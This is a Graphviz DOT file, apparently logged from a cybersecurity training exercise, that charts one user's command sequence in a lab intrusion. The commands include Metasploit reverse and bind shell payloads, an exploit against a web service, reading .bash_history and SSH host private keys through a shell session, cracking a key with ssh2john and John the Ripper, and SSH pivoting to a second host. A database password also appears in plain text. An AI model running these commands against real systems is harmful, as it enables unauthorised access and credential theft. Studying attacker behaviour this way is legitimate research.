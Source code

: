 // creating graph for user: 42
digraph {
	node [shape=box]
	0 [label="nmap --help A0 A1 "]
	1 [label="nmap -p1-65535 172.18.1.5 A0 M0 A1 "]
	2 [label="msfdb init U"]
	3 [label="msf U"]
	4 [label="apt-get install armitage U"]
	5 [label="apt-get update U"]
	6 [label="exit U"]
	7 [label="armitage U"]
	8 [label="back U"]
	9 [label="db_status U"]
	10 [label="setg A6 "]
	11 [label="back U"]
	12 [label="back U"]
	13 [label="db_connect msf:h+L0Xf0385dbIjRgtPnNOaZSMxa7YHoFzS6ojuOkYFc=@localhost:5432/msf U"]
	14 [label="use windows/meterpreter/reverse_tcp A4 "]
	15 [label="back U"]
	16 [label="back U"]
	17 [label="setg LHOST 10.1.135.83 A6 M6 "]
	18 [label="jobs U"]
	19 [label="back U"]
	20 [label="setg LPORT 28605 A6 "]
	21 [label="back U"]
	22 [label="back U"]
	23 [label="hosts -a 172.18.1.5 U"]
	24 [label="back U"]
	25 [label="use auxiliary/scanner/portscan/tcp A4 "]
	26 [label="set RHOSTS 172.18.1.5 V6 "]
	27 [label="set THREADS 24 V6 "]
	28 [label="set PORTS 50000 V6 "]
	29 [label="run -j A8 M8 "]
	30 [label="db_nmap --min-hostgroup 96 -T4 -A -v -n 172.18.1.5 V0 "]
	31 [label="show exploits V8 "]
	32 [label="back U"]
	33 [label="use auxiliary/scanner/portscan/tcp A4 "]
	34 [label="set RHOSTS 172.18.1.5 V6 "]
	35 [label="set THREADS 24 V6 "]
	36 [label="set PORTS 50000 V6 "]
	37 [label="run -j V8 "]
	38 [label="msfconsole A2 M2 "]
	39 [label="set RHOSTS 172.18.1.5 V6 "]
	40 [label="show A5 "]
	41 [label="show all A5 "]
	42 [label="show A5 "]
	43 [label="set exploit V8 "]
	44 [label="set exploit 2019-15107 V8 "]
	45 [label="help U"]
	46 [label="db_nmap --min-hostgroup 96 -T4 -A -v -n 172.18.1.5 V0 "]
	47 [label="use exploit/multi/handler V8 "]
	48 [label="set LHOST 0.0.0.0 V6 "]
	49 [label="set PAYLOAD generic/shell_reverse_tcp V6 "]
	50 [label="set LPORT 14718 A6 "]
	51 [label="set ExitOnSession false A6 A10 "]
	52 [label="exploit -j V8 "]
	53 [label="use exploit/47230 V8 "]
	54 [label="set RHOSTS 172.18.1.5 V6 "]
	55 [label="set TARGETURI / A6 "]
	56 [label="set TARGET 0 A6 "]
	57 [label="set LHOST 10.1.135.83 V6 "]
	58 [label="set LPORT 11265 A6 "]
	59 [label="set PAYLOAD generic/shell_bind_tcp V6 "]
	60 [label="set RPORT 80 V6 "]
	61 [label="set SSL 0 A6 "]
	62 [label="exploit -j V8 "]
	63 [label="use exploit/47230 V8 "]
	64 [label="set RHOSTS 172.18.1.5 V6 "]
	65 [label="set TARGETURI / A6 "]
	66 [label="set TARGET 0 A6 "]
	67 [label="set LHOST 10.1.135.83 V6 "]
	68 [label="set LPORT 2139 A6 "]
	69 [label="set PAYLOAD generic/shell_bind_tcp V6 "]
	70 [label="set RPORT 10000 V6 "]
	71 [label="set SSL 0 A6 "]
	72 [label="exploit -j V8 "]
	73 [label="sessions U"]
	74 [label="sessions -u 1 U"]
	75 [label="use exploit/47230 V8 "]
	76 [label="set RHOSTS  V6 "]
	77 [label="set TARGETURI / A6 "]
	78 [label="set TARGET 0 A6 "]
	79 [label="set LHOST 10.1.135.83 V6 "]
	80 [label="set LPORT 26069 A6 "]
	81 [label="set PAYLOAD generic/shell_bind_tcp V6 "]
	82 [label="set RPORT 10000 V6 "]
	83 [label="set SSL 0 A6 "]
	84 [label="exploit -j V8 "]
	85 [label="use exploit/multi/handler V8 "]
	86 [label="set LHOST 10.1.135.83 V6 "]
	87 [label="set LPORT 8871 A6 "]
	88 [label="set PAYLOAD generic/shell_reverse_tcp V6 "]
	89 [label="set ExitOnSession false A6 A10 "]
	90 [label="exploit -j V8 "]
	91 [label="hosts -a 172.18.1.5 U"]
	92 [label="back U"]
	93 [label="use exploit/47230 V8 "]
	94 [label="set RHOSTS 172.18.1.5 V6 "]
	95 [label="set TARGETURI / A6 "]
	96 [label="set TARGET 0 A6 "]
	97 [label="set LHOST 10.1.135.83 V6 "]
	98 [label="set LPORT 17595 A6 "]
	99 [label="set PAYLOAD generic/shell_bind_tcp V6 "]
	100 [label="set RPORT 10000 V6 "]
	101 [label="set SSL 0 A6 "]
	102 [label="exploit -j V8 "]
	103 [label="sessions U"]
	104 [label="sessions -u 3 U"]
	105 [label="sessions --help U"]
	106 [label="sessions -h U"]
	107 [label="sessions -c 3 ls A10 "]
	108 [label="sessions 3 -c ls A10 "]
	109 [label="sessions 3 -c dir U"]
	110 [label="sessions 3 -c ls A10 "]
	111 [label="sessions 3 -c dir U"]
	112 [label="sessions 3 -c cd / U"]
	113 [label="sessions 3 -c pwd U"]
	114 [label="sessions 3 -c dir U"]
	115 [label="sessions 3 -c WARNING-READ-ME.txt U"]
	116 [label="sessions 3 -c nano WARNING-READ-ME.txt U"]
	117 [label="sessions 3 -c leafpad WARNING-READ-ME.txt U"]
	118 [label="sessions 3 -c editor WARNING-READ-ME.txt U"]
	119 [label="sessions 3 -c editor WARNING-READ-ME.txt U"]
	120 [label="sessions -u  U"]
	121 [label="sessions -u 1 U"]
	122 [label="sessions U"]
	123 [label="sessions 3 -c less WARNING-READ-ME.txt A9 M9 A11 A12 A17 "]
	124 [label="sessions 3 -c ls A10 "]
	125 [label="sessions -k 3 U"]
	126 [label="sessions -c cd ? U"]
	127 [label="sessions -c cd / U"]
	128 [label="sessions -c cd / U"]
	129 [label="sessions -c dir U"]
	130 [label="sessions -c search history A3 "]
	131 [label="sessions -c find history A10 "]
	132 [label="sessions -c find *.bash_history A10 M10 "]
	133 [label="sessions -c find -name *.bash_history V10 "]
	134 [label="sessions -c dir /home/eve U"]
	135 [label="sessions -c ls A10 "]
	136 [label="sessions -c dir /home U"]
	137 [label="sessions -c cd /home/eve U"]
	138 [label="sessions -c ls A10 "]
	139 [label="sessions 3 -c less .bash_history A11 M11 A12 A17 "]
	140 [label="hosts -a 10.1.17.4 U"]
	141 [label="back U"]
	142 [label="sessions 3 -c tree U"]
	143 [label="sessions 3 -c pwd U"]
	144 [label="sessions 3 -c dir U"]
	145 [label="sessions 3 -c cd / U"]
	146 [label="sessions 3 -c find -name ssh V10 "]
	147 [label="sessions 3 -c cd /etc/ssh A16 "]
	148 [label="sessions 3 -c dir U"]
	149 [label="sessions 3 -c less ssh_host_rsa_key A9 A11 A12 A16 A17 "]
	150 [label="openssh A16 "]
	151 [label="ssh A16 "]
	152 [label="ssh -i /root/ssh A16 M16 "]
	153 [label="dir U"]
	154 [label="dir desktop U"]
	155 [label="dir Desktop U"]
	156 [label="ssh -i /root/desktop/ssh V16 "]
	157 [label="less /desktop/ssh A9 A11 A12 A16 A17 "]
	158 [label="pwd U"]
	159 [label="less /root/desktop/ssh A9 A11 A12 A16 A17 "]
	160 [label="less /root/Desktop/ssh A9 A11 A12 A16 A17 "]
	161 [label="ssh -i /root/Desktop/ssh 10.1.17.4 V16 "]
	162 [label="sessions 3 -c less ssh_host_ecdsa_key.pub A9 A11 A12 A16 A17 "]
	163 [label="ssh -i /root/Desktop/sshpub 10.1.17.4 V16 "]
	164 [label="sessions 3 -c less ssh_host_ecdsa_key A9 A11 A12 A16 A17 "]
	165 [label="ssh -i /root/Desktop/ssh 10.1.17.4 V16 "]
	166 [label="ssh A16 "]
	167 [label="ssh -i /root/Desktop/ssh 10.1.17.4 V16 "]
	168 [label="sessions 3 -c less ssh_config A9 A11 A12 A16 A17 "]
	169 [label="ssh -i /etc/ssh/ssh_comp 10.1.17.4 V16 "]
	170 [label="chmod 600 /etc/ssh/ssh_comp A15 M15 A16 "]
	171 [label="ssh -i /etc/ssh/ssh_comp 10.1.17.4 V16 "]
	172 [label="sessions 3 -c cd /usr/bin/ssh A16 "]
	173 [label="sessions 3 -c ls A10 "]
	174 [label="sessions 3 -c less sshd_config A9 A11 A12 A16 A17 "]
	175 [label="sessions 3 -c ls A10 "]
	176 [label="sessions 3 -c less ssh_host_ecdsa_key A9 A11 A12 A16 A17 "]
	177 [label="sessions -c cd / U"]
	178 [label="sessions -c find -fname ecdsa A10 "]
	179 [label="sessions -c find -name ecdsa V10 "]
	180 [label="sessions -c find -name ecdsa_key V10 "]
	181 [label="sessions -c find -fname *ecdsa_key A10 "]
	182 [label="sessions -c find -fname ssh_host_ecdsa_key A10 A16 "]
	183 [label="sessions -c pwd U"]
	184 [label="sessions -c ls A10 "]
	185 [label="python ssh2john.py A13 M13 A14 A16 "]
	186 [label="python ssh2john.py /etc/ssh/ssh_comp V13 "]
	187 [label="python ssh2john.py --help V13 "]
	188 [label="python ssh2john.py V13 "]
	189 [label="python ssh2john.py V13 "]
	190 [label="python ssh2john.py /root/Desktop/ssh_comp V13 "]
	191 [label="john --wordlist rockyou.txt /root/Desktop/john A14 M14 "]
	192 [label="john --wordlist /root/Desktop/john V14 "]
	193 [label="john --wordlist /usr/share/wordlists/rockyou.txt /root/Desktop/john V14 "]
	194 [label="ssh -i /etc/ssh/ssh_comp 10.1.17.4 V16 "]
	195 [label="ssh -i /usr/Desktop/ssh_comp 10.1.17.4 V16 "]
	196 [label="ssh -i /root/Desktop/ssh_comp 10.1.17.4 V16 "]
	197 [label="chmod 600 /root/Desktop/ssh_comp V15 "]
	198 [label="ssh -i /root/Desktop/ssh_comp 10.1.17.4 V16 "]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 7 [constraint=false]
	7 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	21 -> 22 [constraint=false]
	22 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	50 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 53 [constraint=false]
	53 -> 54 [constraint=false]
	54 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 60 [constraint=false]
	60 -> 61 [constraint=false]
	61 -> 62 [constraint=false]
	62 -> 63 [constraint=false]
	63 -> 64 [constraint=false]
	64 -> 65 [constraint=false]
	65 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 68 [constraint=false]
	68 -> 69 [constraint=false]
	69 -> 70 [constraint=false]
	70 -> 71 [constraint=false]
	71 -> 72 [constraint=false]
	72 -> 73 [constraint=false]
	73 -> 74 [constraint=false]
	74 -> 75 [constraint=false]
	75 -> 76 [constraint=false]
	76 -> 77 [constraint=false]
	77 -> 78 [constraint=false]
	78 -> 79 [constraint=false]
	79 -> 80 [constraint=false]
	80 -> 81 [constraint=false]
	81 -> 82 [constraint=false]
	82 -> 83 [constraint=false]
	83 -> 84 [constraint=false]
	84 -> 85 [constraint=false]
	85 -> 86 [constraint=false]
	86 -> 87 [constraint=false]
	87 -> 88 [constraint=false]
	88 -> 89 [constraint=false]
	89 -> 90 [constraint=false]
	90 -> 91 [constraint=false]
	91 -> 92 [constraint=false]
	92 -> 93 [constraint=false]
	93 -> 94 [constraint=false]
	94 -> 95 [constraint=false]
	95 -> 96 [constraint=false]
	96 -> 97 [constraint=false]
	97 -> 98 [constraint=false]
	98 -> 99 [constraint=false]
	99 -> 100 [constraint=false]
	100 -> 101 [constraint=false]
	101 -> 102 [constraint=false]
	102 -> 103 [constraint=false]
	103 -> 104 [constraint=false]
	104 -> 105 [constraint=false]
	105 -> 106 [constraint=false]
	106 -> 107 [constraint=false]
	107 -> 108 [constraint=false]
	108 -> 109 [constraint=false]
	109 -> 110 [constraint=false]
	110 -> 111 [constraint=false]
	111 -> 112 [constraint=false]
	112 -> 113 [constraint=false]
	113 -> 114 [constraint=false]
	114 -> 115 [constraint=false]
	115 -> 116 [constraint=false]
	116 -> 117 [constraint=false]
	117 -> 118 [constraint=false]
	118 -> 119 [constraint=false]
	119 -> 120 [constraint=false]
	120 -> 121 [constraint=false]
	121 -> 122 [constraint=false]
	122 -> 123 [constraint=false]
	123 -> 124 [constraint=false]
	124 -> 125 [constraint=false]
	125 -> 126 [constraint=false]
	126 -> 127 [constraint=false]
	127 -> 128 [constraint=false]
	128 -> 129 [constraint=false]
	129 -> 130 [constraint=false]
	130 -> 131 [constraint=false]
	131 -> 132 [constraint=false]
	132 -> 133 [constraint=false]
	133 -> 134 [constraint=false]
	134 -> 135 [constraint=false]
	135 -> 136 [constraint=false]
	136 -> 137 [constraint=false]
	137 -> 138 [constraint=false]
	138 -> 139 [constraint=false]
	139 -> 140 [constraint=false]
	140 -> 141 [constraint=false]
	141 -> 142 [constraint=false]
	142 -> 143 [constraint=false]
	143 -> 144 [constraint=false]
	144 -> 145 [constraint=false]
	145 -> 146 [constraint=false]
	146 -> 147 [constraint=false]
	147 -> 148 [constraint=false]
	148 -> 149 [constraint=false]
	149 -> 150 [constraint=false]
	150 -> 151 [constraint=false]
	151 -> 152 [constraint=false]
	152 -> 153 [constraint=false]
	153 -> 154 [constraint=false]
	154 -> 155 [constraint=false]
	155 -> 156 [constraint=false]
	156 -> 157 [constraint=false]
	157 -> 158 [constraint=false]
	158 -> 159 [constraint=false]
	159 -> 160 [constraint=false]
	160 -> 161 [constraint=false]
	161 -> 162 [constraint=false]
	162 -> 163 [constraint=false]
	163 -> 164 [constraint=false]
	164 -> 165 [constraint=false]
	165 -> 166 [constraint=false]
	166 -> 167 [constraint=false]
	167 -> 168 [constraint=false]
	168 -> 169 [constraint=false]
	169 -> 170 [constraint=false]
	170 -> 171 [constraint=false]
	171 -> 172 [constraint=false]
	172 -> 173 [constraint=false]
	173 -> 174 [constraint=false]
	174 -> 175 [constraint=false]
	175 -> 176 [constraint=false]
	176 -> 177 [constraint=false]
	177 -> 178 [constraint=false]
	178 -> 179 [constraint=false]
	179 -> 180 [constraint=false]
	180 -> 181 [constraint=false]
	181 -> 182 [constraint=false]
	182 -> 183 [constraint=false]
	183 -> 184 [constraint=false]
	184 -> 185 [constraint=false]
	185 -> 186 [constraint=false]
	186 -> 187 [constraint=false]
	187 -> 188 [constraint=false]
	188 -> 189 [constraint=false]
	189 -> 190 [constraint=false]
	190 -> 191 [constraint=false]
	191 -> 192 [constraint=false]
	192 -> 193 [constraint=false]
	193 -> 194 [constraint=false]
	194 -> 195 [constraint=false]
	195 -> 196 [constraint=false]
	196 -> 197 [constraint=false]
	197 -> 198 [constraint=false]
	rankdir=LR
}
